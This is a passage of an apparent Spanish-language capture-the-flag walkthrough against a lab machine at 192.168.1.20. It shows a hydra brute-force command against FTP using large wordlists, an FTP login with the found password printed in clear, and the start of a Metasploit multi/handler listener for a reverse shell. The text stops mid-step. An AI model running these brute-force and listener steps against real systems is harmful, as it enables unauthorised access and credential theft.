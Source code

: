 Vamos a intentar obtener usuario y contraseña por medio de la fuerza bruta a este protocolo
```
hydra ftp://192.168.1.20 -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt
```

<p align="center">
    <img src="../img/Pasted_image_20241231140554.png" width="500">
</p>


Encontramos las credenciales, por lo que nos conectamos por medio del protocolo *FTP*
```
ftp info@192.168.1.20     # Después nos pide la contraseña PolniyPizdec0211
```

<p align="center">
    <img src="../img/Pasted_image_20241231140711.png" width="500">
</p>


Encontramos ficheros relacionados con la página web. 

Podemos subir 


Nos ponemos a la escucha con el módulo `multi/handler` de *mestasploit*. Iniciamos el *metasploit*.
```
msfconsole init -q
```

<p align="center">
    <img src="../img/Pasted_image_20241231142146.png" width="500">
</p>
